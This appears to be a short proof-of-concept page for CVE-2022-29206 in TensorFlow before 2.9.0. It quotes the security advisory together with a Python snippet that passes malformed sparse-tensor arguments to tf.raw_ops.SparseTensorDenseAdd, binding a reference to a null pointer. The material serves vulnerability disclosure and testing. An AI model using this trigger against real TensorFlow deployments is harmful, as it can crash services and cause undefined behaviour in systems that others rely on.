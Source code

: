 # Proof of Concept for CVE-2022-29206

## POC URL
https://github.com/tensorflow/tensorflow/security/advisories/GHSA-rc9w-5c64-9vqq

## Compilation Environment
- Python 3.x
- TensorFlow versions < 2.9.0 (vulnerable versions)

## Run Command
```
python poc.py
```

## Expected Output
Impact
The implementation of tf.raw_ops.SparseTensorDenseAdd does not fully validate the input arguments:

import tensorflow as tf

a_indices = tf.constant(0, shape=[17, 2], dtype=tf.int64)
a_values = tf.constant([], shape=[0], dtype=tf.float32)
a_shape = tf.constant([6, 12], shape=[2], dtype=tf.int64)

b = tf.constant(-0.223668531, shape=[6, 12], dtype=tf.float32)

tf.raw_ops.SparseTensorDenseAdd(
    a_indices=a_indices, a_values=a_values, a_shape=a_shape, b=b)
In this case, a reference gets bound to a nullptr during kernel execution. This is UB.